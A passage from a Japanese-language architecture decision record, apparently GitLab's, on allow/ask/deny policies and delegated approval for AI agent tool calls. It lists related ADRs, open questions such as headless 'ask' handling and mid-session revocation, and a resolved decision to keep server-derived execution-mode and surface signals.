| 後日（時期未定） | 管理者が作成する引数レベルのガバナンス上限: `ai_tool_rules.tool_arguments` に対する glob/正規表現の `match_type`、GIN インデックス、具体性に基づく優先順位 | なし。ローカルポリシーの上に追加する上限であり、前提となって作業を妨げることはありません |

## 7. 既存 ADR との関係 {#7-relationship-to-existing-adrs}

| ADR | 関係 |
|---|---|
| [006 — ツール承認](006_tool_approval.md) | 変更なし。セッション承認の仕組みとケイパビリティネゴシエーションをそのまま再利用します（`deny` アクションで拡張）。 |
| [007 — AI ガバナンス](007_ai_governance.md) | モデルは変更せず、強制を強化します（§4.1）。ツール名レベルの上限は引き続きローカルポリシーの上に置きます。 |
| [009 — 構造に基づく安全策とバリデーターの廃止](009_command_validator_deprecation.md) | 置き換えるのではなく、依存します。`CommandPatternMatcher` と、`*` がフラグを除外する構造上の安全策は、変更せずに再利用します。この ADR が変えるのは、初日に*何がポリシーの内容を与えるか*（同梱され、顧客が上書きできるデフォルト）と、ユーザーによる作成が*いつ*必要になるか（Phase 0 ではなく Phase 1）だけです。ADR-009 のバリデーター廃止手順は、この展開によって最終的に安全に完了できるようになる整理作業です。 |

**旧「ADR-007 v2: Deferred Capabilities」ドキュメントの扱い**（この改訂を導入した変更と同時に削除。内容には決定済みのアーキテクチャがなく、ADR 形式に適していませんでした）:

- *ユーザーレベルの自動承認へのオプトイン*（項目 7） — 一般化して**この ADR で提供**します。委任への同意設定とローカルポリシーは、当初概説した `user_id` にスコープされた `ai_tool_rules` 行を使わずに、「管理者がユーザーレベルの設定のロックを解除し、ユーザーが管理者ポリシーの範囲内で設定を選ぶ」ことをそのまま実現します。
- *glob/正規表現による引数マッチング、GIN インデックス、具体性に基づく優先順位*（項目 1、2、5） — 上記の展開表の「後日」に引き継ぎます。将来の任意の引数レベルのガバナンス上限です。
- *監査専用モード、コンプライアンスプリセット、拒否ツールのプロンプトフィルタリング、インスタンスレベルのルール、traversal-ID クエリ最適化*（項目 3、4、6、8、9） — 自動モードとは無関係なガバナンスエンジンのバックログです。ADR に置くのではなく、追跡用 Issue に移行します。

## 8. 未解決の問い {#8-open-questions}

1. 初期デフォルトポリシーに実際に何を含めるべきでしょうか？ ツールごと（`git`、`npm`、`docker`、`curl`、`make`）に、一般的なサブコマンドを `allow`、`ask`、`deny` のどれにするか判断する必要があります。内部で草案を作成済みです（カテゴリ A/B の分析、廃止予定のバリデーターと照合済み）。v0 の提供前に、ポリシーの担当チームが承認します。
2. `denied?` の強制（§4.1）は頻繁に通る処理パス上で同期的に行う必要がありますか、それとも、新しい往復なしで、現在 `approved?` を確認している箇所で確認できますか？（同じ呼び出し箇所に分岐を追加する後者の可能性が高いです。）
3. ヘッドレスモードでの `ask` の意味: `duo run` には、ポリシーで判断されずに残った `ask`（または同意がないためフックの `allow` から下げられたもの）に答える人がいません。ツール呼び出しを完全に失敗させる（安全で、推奨）か、スキップして続行するかを決めてください。暗黙に `allow` に変えてはいけません。
4. セッション中の取り消し: 同意設定をオフにすると、*新しい*ワークフローの自動承認は停止しますが、すでに実行中のセッション内のポリシー承認を止める緊急停止手段はありません。Phase 0 として許容できますか？ 延期するとしても、範囲を定める価値があります。
5. **非ローカル環境向けのサーバー側委任評価器。** 委任の仕組み（PreToolUse フック / Rego）は現在クライアント専用であり、サーバー側では未検証であることを明示しています。Web UI や CI での自動モードには、人なしで `ask` を解決する、*サーバーが信頼する*方法が必要です。その評価器をどこに置くか（JWT 発行前の Rails か、`approval_required` 時の DWS か）を決め、`background_effective` の `ask` → `allow` を再検討してください。委任された承認者が*いる*無人環境では、`ask` は暗黙に `allow` にするのではなく、その承認者に渡すべきです。
6. **`local_access` 内のローカル環境ごとのポリシー。** Web 環境は独立した `web_access` カラムを維持するため（解決済みの決定を参照）、Web は統合**されません**。統合されたままなのは*ローカル*環境です。`ide`/`cli`/`chat` はすべて単一の `local_access` カラムに解決されます。現在の信頼性の修正には問題ありませんが、再び分けない限り、将来「IDE は X を実行できるが、無人 CLI はできない」というポリシーは実現できません。これが見落としではなく、意識的に受け入れたトレードオフであることを確認してください。

**解決済みの決定**

- *2 つの軸を区別して維持し、どちらもサーバーで導出します（コードの対応関係を検証した後、2026-08-20 に解決。[!250574](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/250574) のスレッドを参照）。* このアーキテクチャは、一方を他方にまとめず、**独立した 2 つのサーバー由来のシグナル**を維持します。`execution_mode`（二値の `client`/`background`）は権限の上限制約を決める信頼/対話性のシグナルであり、`surface`（3 種類の `web`/`local`/`background`）は適用するポリシーカラムを選択します。`web_access` は**独立したカラムとして維持**します。対話型 Web UI は、`web` の surface（`ask` をサポートする `web_access` に対応）と `client` の execution_mode（上限制約用）として解決します。`local_access` に統合することは**なく**、利用環境の選択を二値の `execution_mode` に集約することも**ありません**。残る実装作業は、Web UI の両シグナルを、偽装可能なクライアントの `environment` や `caller_can_execute` を介さず、サーバー由来にすることです。[gitlab#618761](https://gitlab.com/gitlab-org/gitlab/-/issues/618761) で追跡しています（§3.3、§3.4 を参照）。
